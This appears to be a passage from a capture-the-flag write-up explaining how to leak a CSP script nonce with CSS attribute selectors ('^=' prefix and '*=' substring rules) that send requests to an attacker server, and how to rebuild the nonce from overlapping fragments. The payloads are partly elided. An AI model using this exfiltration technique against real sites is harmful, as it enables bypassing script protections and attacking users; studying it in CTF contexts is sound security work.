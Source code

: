 Main issue is, though, to understand how to leak the nonce.

## Leaking the nonce

The first idea that came into our mind is using the following css rules in order to leak the nonce:

```css
body:has(script[nonce^="a"]){
    background: url(...)
}

body:has(script[nonce^="b"]){
    background: url(...)
}

body:has(script[nonce^="c"]){
    background: url(...)
}

[...]
```

When a request is sent to our server, we know which char is right, and then we would upload a new css file to npm in order to leak the following char.

We quickly realized it's not possible due to multiple reasons:

- the uploading process is too slow,
- we cannot import dynamically css since we cannot reload the page, leading to losing the nonce
- we can only load another post once.

so we moved on.

An idea which sounded great came into my mind the next day: we can leak the whole nonce in parts by using the `*=` operator in CSS.

Example:
Let's say our nonce is `testo`, if we can leak substrings of the nonce, then to our server we might receive these requests:

`?x=tes`
`?x=est`
`?x=sto`

Then, since some letters overlap, we're able to recover the whole nonce.

We tried to leak some characters using a payload similar to the one above:

```css
body:has(script[nonce*="aaa"]){
    background: url(...)
}

body:has(script[nonce*="aab"]){
    background: url(...)
}

body:has(script[nonce*="aac"]){
    background: url(...)
}

[...]
```
